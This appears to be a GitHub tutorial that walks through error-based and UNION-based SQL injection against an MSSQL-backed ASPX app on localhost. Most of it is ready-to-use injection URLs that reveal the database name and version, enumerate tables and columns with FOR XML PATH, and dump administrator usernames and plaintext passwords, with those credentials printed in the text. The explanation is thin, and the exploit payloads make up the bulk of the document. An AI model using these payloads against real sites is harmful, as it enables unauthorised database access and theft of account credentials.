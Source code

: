 # MSSQL-Injection

Now let's get started the ERROR BASED INJECTION on MSSQL server, MSSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !
```sql
 http://localhost/Product.aspx?Id=13 and 1=db_name()--
```

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

```sql
http://localhost/Product.aspx?Id=13 and @@version=1--
```

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )"

Now let's get extract Tables name and Columns from DB with one query:
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--
```
and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--
```
Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)

```plaintext
Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )
```

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this

```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -
```

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns
```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -
```
![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)
```plaintext
Username: Admin
Password: simplifi@123 ( plaintext )
```
In this query, the FOR XML PATH('') clause is used to concatenate the query results into XML format and to obtain a scalar result.
In practice, this allows the obtained data to be retrieved as a single string, easily manipulable and usable within the SQL injection. The use of FOR XML PATH('') is not necessary in all SQL injection queries, but it can be used to format the results in a way that allows for efficient exploitation of the vulnerability.

We are done tested my MSSQL Server.

[![TryHackMe](https://img.shields.io/badge/-TryHackMe-3d9970?style=for-the-badge&logo=tryhackme&logoColor=white)](https://tryhackme.com/p/TheRootGod)
[![LinkedIn](https://img.shields.io/badge/-LinkedIn-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/nistor-alexandru-cosmin-a900b5278/)






